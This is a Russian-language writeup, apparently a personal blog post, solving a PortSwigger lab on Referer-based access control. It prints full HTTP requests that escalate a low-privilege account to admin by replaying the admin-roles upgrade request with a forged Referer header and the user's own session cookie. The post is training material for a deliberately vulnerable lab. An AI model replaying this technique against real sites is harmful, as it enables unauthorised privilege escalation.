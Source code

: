 ```yaml
---
title: "Referer-based access control"
date: 2025-07-25
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-referer-based-access-control"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа через Referer**.

```
https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/
```

## Solution

Зайду в ЛК админа. Зайду в панель админа и повышу пользователя `carlos`, чтобы собрать запросы:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/1.png){: height="200" .align-center}

Запрос:

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=vu0K5L2D8wqkJO7XF1Cs8V0v69YtIvPv
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Закину его в `Repeater`. Иду в аккаунт `wiener`. Возьму новое значение `Cookies`, чтобы отправлять запрос от лица непривилегированного пользователя:

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a5e006703ed1e9880425d3c005b0030.web-security-academy.net
Cookie: session=OMEHhZhAsIgyAXcqFzGuShFq239HqLgI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5e006703ed1e9880425d3c005b0030.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получилось... Слишком просто.

Глянул разбор. Идея был в том, чтобы взять именно `URL` `/admin-roles?username=carlos&action=upgrade`, а дальше уже подставить значение `Referer`, которое используется для зашиты доступа к `API`-ручкам админа. Но я скопировал запрос, поэтому у меня это поле уже было) Таков путь...


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Referer-based_access_control/2.png){: height="200" .align-center}
